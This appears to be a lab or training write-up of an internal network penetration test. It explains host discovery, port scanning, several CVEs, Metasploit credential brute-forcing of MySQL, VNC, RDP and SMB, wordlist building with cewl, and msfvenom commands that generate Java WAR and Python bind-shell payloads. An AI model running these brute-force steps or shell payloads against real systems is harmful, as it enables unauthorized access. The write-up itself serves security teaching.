# Internal Network Penetraion Testing

## Table of Contents

- [Table of Contents](#Table-of-Contents)
- [Scope](#Scope)
 - [Host Discovery](#Host-Discovery)
- [Service Discovery and Port Scanning](#Service-Discovery-and-Port-Scanning)
- [Vulnerability_Scanning](#Vulnerability_Scanning)
-  [Web Based Attack Surface](#Web-Based-Attack-Surface)
- [CVSS v3.0 Reference Table](#CVSS-v3.0-Reference-Table)
  ## Scope
 The scope of engagement comprises of an internal network 10.10.10.0/24 and a domain https://virtualinfosecafrica.com

  ## Host Discovery 
  **Host discovery** is the process of identifying active or "live" devices (hosts) on a network. It's often the first step in network scanning and security assessments, allowing you to determine which devices are present and can potentially be further analyzed for vulnerabilities, services, or open ports.

### Key Aspects of Host Discovery:

1. **Purpose**:
   - **Network Mapping**: Identify all devices (e.g., computers, servers, routers, etc.) on a network to build a map of connected systems.
   - **Network Inventory**: Keep track of devices on a network for management and security purposes.
   - **Target Identification**: In penetration testing or network scanning, it helps to find which devices can be further tested for vulnerabilities.

2. **Common Techniques**:
   Host discovery typically involves sending various types of requests or probes to devices and analyzing their responses. Some common techniques include:

   - **Ping Sweep**: ICMP Echo Request packets (commonly known as "ping") are sent to a range of IP addresses. Devices that respond with an ICMP Echo Reply are considered live. However, this technique can be blocked by firewalls or configured not to respond to ICMP.
   
   - **ARP Request (Address Resolution Protocol)**: ARP requests are used on local networks to discover devices. When a device receives an ARP request for its IP address, it replies with its MAC address, indicating it is online.

   - **TCP/UDP Probing**: Sending TCP SYN (synchronize) packets or UDP packets to specific ports on devices to check if they respond. If a device responds (e.g., with a SYN/ACK or a RST packet for TCP), it's considered active.
   
   - **Port Scanning**: Host discovery can be done by attempting to connect to specific ports, like port 80 (HTTP) or 22 (SSH). If the host responds, it indicates it's active.

3. **Tools for Host Discovery**:
   - **Nmap**: One of the most widely used tools for host discovery. It provides multiple host discovery techniques (ICMP, TCP, ARP, etc.) and can be configured with various options to bypass firewalls or optimize scanning.
     - Example Nmap command for host discovery:
       ```bash
       nmap -sn 192.168.1.0/24
       ```
       `-sn` disables port scanning and focuses only on discovering live hosts.
       ```

4. **Challenges**:
   - **Firewalls**: Some networks have firewall rules that block ping requests or limit responses to certain probes, making host discovery more difficult.
   - **Stealth**: In penetration testing or ethical hacking, host discovery needs to be stealthy to avoid detection by intrusion detection systems (IDS) or administrators.

### Why Host Discovery Matters:
- **Efficiency**: Instead of scanning the entire network for services and vulnerabilities, host discovery helps you focus on live hosts, optimizing time and resources.
- **Security Monitoring**: It allows network administrators to detect unauthorized devices or rogue hosts that might pose a security threat.
- **Penetration Testing**: Identifying live hosts is crucial for ethical hacking, as it helps narrow down which devices to target for vulnerability testing.

In summary, host discovery is about identifying which devices are currently active on a network so that further actions like vulnerability scanning, service detection, or network management can be effectively performed.



A subdomain enumeration can be demonstrated using a tool like **aiodnsbrute** with the domain provided in the scope.


  ## Service Discovery and Port Scanning
  **Service discovery** and **port scanning** are critical steps in network security assessments, vulnerability management, and penetration testing. They help reveal what services are running on network devices and which ports are open, providing a foundation for further analysis of potential vulnerabilities or misconfigurations.

### Why Service Discovery and Port Scanning Are Performed:

#### 1. **Identify Running Services on a Host**:
   - **Service Discovery**: This process helps identify what network services (e.g., HTTP, SSH, FTP, DNS) are running on a host. Every service operates on a specific port (e.g., HTTP on port 80, SSH on port 22), and knowing which services are running is crucial to understanding how a host interacts with the network.
     - Example: A web server runs an HTTP service on port 80 or 443, while a database service like MySQL may be running on port 3306.

   - **Port Scanning**: A port scan checks for open, closed, or filtered ports on a host. Open ports indicate that a service is available and potentially reachable from the network. By scanning ports, you can identify which services are actively listening for connections on a host.
     - Example: A scan might show that a host has port 22 (SSH) and port 80 (HTTP) open, indicating that the device is likely running a web server and an SSH service.

#### 2. **Assess Security and Vulnerabilities**:
   - **Detect Vulnerabilities**: Some services may be outdated or improperly configured, exposing the host to vulnerabilities. By identifying the version of the service running on a specific port (service discovery), security professionals can determine if the service has known vulnerabilities that could be exploited.
     - Example: Discovering that a server is running an old version of SMB could indicate a vulnerability to the EternalBlue exploit (MS17-010).

   - **Misconfigurations**: Port scanning helps to identify misconfigurations, such as unnecessary open ports or services that should not be accessible from outside the network. This is a common source of security weaknesses.
     - Example: A sensitive service like a database or remote desktop protocol (RDP) might be left exposed on the internet instead of being limited to internal traffic, posing a serious security risk.

#### 3. **Network Inventory and Monitoring**:
   - **Mapping the Network**: Service discovery and port scanning provide a snapshot of the services and ports available on devices in a network. This is important for maintaining an accurate inventory of the network infrastructure and its services.
   - **Monitoring Network Changes**: By regularly scanning the network, administrators can detect unauthorized services or ports that have been opened, which might indicate a security breach or a change in the network's structure.

#### 4. **Penetration Testing and Ethical Hacking**:
   - **Target Identification**: In penetration testing, service discovery and port scanning help identify potential targets. Pen testers need to know which services are running and which ports are open before they can exploit vulnerabilities.
     - Example: After identifying that a service like FTP is running, a pen tester might attempt to exploit default credentials or vulnerabilities specific to that service.
   
   - **Attack Surface Analysis**: Understanding which services are exposed on a device helps to map out the attack surface. This is key in determining what methods can be used to gain unauthorized access to the system.

#### 5. **Troubleshooting and Network Diagnostics**:
   - **Ensuring Services are Available**: Port scanning helps administrators verify that services are running as expected and that the necessary ports are open. If a service is down, a port scan may show that the port is closed, indicating an issue with the service or firewall configuration.
   - **Detecting Firewalls and Filtering**: Service discovery and port scanning can help diagnose if firewalls or security devices are blocking traffic. If a port scan shows certain ports as "filtered," it means that a firewall is preventing access to that service.

### Why These Steps Are Necessary:

#### 1. **Security Posture Assessment**:
   - Without service discovery and port scanning, it's impossible to fully understand the security posture of a host or network. These steps reveal what services are exposed and which ports are accessible, both of which could be entry points for an attacker. 

#### 2. **Reducing the Attack Surface**:
   - By identifying unnecessary or vulnerable services and open ports, administrators can take steps to disable or secure them, reducing the attack surface of the network. This minimizes the number of ways an attacker could gain unauthorized access.

#### 3. **Compliance and Best Practices**:
   - Many security frameworks and compliance standards (e.g., PCI-DSS, HIPAA) require regular network scanning, vulnerability assessments, and hardening of exposed services. Service discovery and port scanning are foundational to fulfilling these requirements and maintaining a secure environment.

#### 4. **Proactive Defense**:
   - Attackers often use port scans and service discovery as part of their reconnaissance phase. By regularly performing these scans themselves, network administrators can identify weaknesses before an attacker does and strengthen the network’s defenses proactively.



| Name| Description | 
| --- | --- | 
| CVE-2021-41773 | A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.
| CVE-2021-26887 | <p>An elevation of privilege vulnerability exists in Microsoft Windows when Folder redirection has been enabled via Group Policy. When folder redirection file server is co-located with Terminal server, an attacker who successfully exploited the vulnerability would be able to begin redirecting another user's personal data to a created folder.</p> <p>To exploit the vulnerability, an attacker can create a new folder under the Folder Redirection root path and create a junction on a newly created User folder. When the new user logs in, Folder Redirection would start redirecting to the folder and copying personal data.</p> <p>This elevation of privilege vulnerability can only be addressed by reconfiguring Folder Redirection with Offline files and restricting permissions, and NOT via a security update for affected Windows Servers. See the <strong>FAQ</strong> section of this CVE for configuration guidance.</p>
|  CVE-2024-5775   | A vulnerability was found in SourceCodester Vehicle Management System 1.0 and classified as critical. Affected by this issue is some unknown functionality of the file updatebill.php. The manipulation of the argument id leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. VDB-267458 is the identifier assigned to this vulnerability.
| CVE-2022-25246|      Axeda agent (All versions) and Axeda Desktop Server for Windows (All versions) uses hard-coded credentials for its UltraVNC installation. Successful exploitation of this vulnerability could allow a remote authenticated attacker to take full remote control of the host operating system.


  ## Vulnerability Scanning
  
Using my protocol specific file I created under service discovery, I scannned for vulnerabilities with the *Metasploit Auxilliary Module*

## Scanning for login vulnerabilities for the following services.

1. ### mysql:
steps:
> 1. msfconsole
>
> 2. search and use mysql_login
>
> 3. info
>
> 4. set USER_FILE userlist.txt
>
> 5. set PASS_FILE passlist.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**


2. ### vnc:
steps:
> 1. msfconsole
>
> 2. search and use vnc_login
>
> 3. info
>
> 4. set USER_FILE userlist1.txt
>
> 5. set PASS_FILE passlist1.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**

  Before setting the **user_file**, **pass_file** and **RHOSTS**

 After setting them.


3. ### rdp:
steps:
> 1. msfconsole
>
> 2. search and use rdp_login
>
> 3. info
>
> 7. **run**


4. ### smb:
steps:
> 1. msfconsole
>
> 2. search and use smb_login
>
> 3. info
>
> 4. set USER_FILE userlist2.txt
>
> 5. set PASS_FILE passlist2.txt
>
>6. set RHOSTS 10.10.10.0/24
>
> 7. **run**





Assuming I had to develop my own custom wordlist, I can use the tool called **Cewl**.

syntax used:
> cewl -m5 -w passlist.txt -cv -o virtualinfosecafrica.com






 # Web-Based Attack Surfaces


Eyewitness is a tool used to take screenshots of web applications, open RDP services, and open VNC servers, which helps in identifying and reporting vulnerabilities. It is especially helpful when performing reconnaissance and vulnerability assessments. Below is an example of the syntax for using EyeWitness:

> eyewitness --timeout 15 -f sites.txt







## Generating Payloads


To generate a payload that can trigger a **TCP bind shell** with **msfvenom**, assuming the host is 10.10.10.55 and runs on an Apache Tomcat web server(Java based), we use the **syntax command**:

> msfvenom -p java/shell/bind_tcp LPORT=9005 RHOSTS=10.10.10.55 -f war -o payload.war




To generate a payload that can execute **base64** with **msfvenom**, assuming the host is 10.10.10.55 and runs a Python server, we use the **syntax command**:

> msfvenom -p python/shell_bind_tcp  LPORT=9005 RHOSTS=10.10.10.55 -f python -o payload.py





  ## CVSS v3.0 Reference Table 
  | Qualitative Rating | CVSS Score |
  |:-------------------:|:-----------:|
  | None informational | N/A |
  | Low | 0.1-3.9|
  | Medium | 4.0-6.9|
  | High | 7.0-8.9|
  | Critical | 9.0-10.0 |
  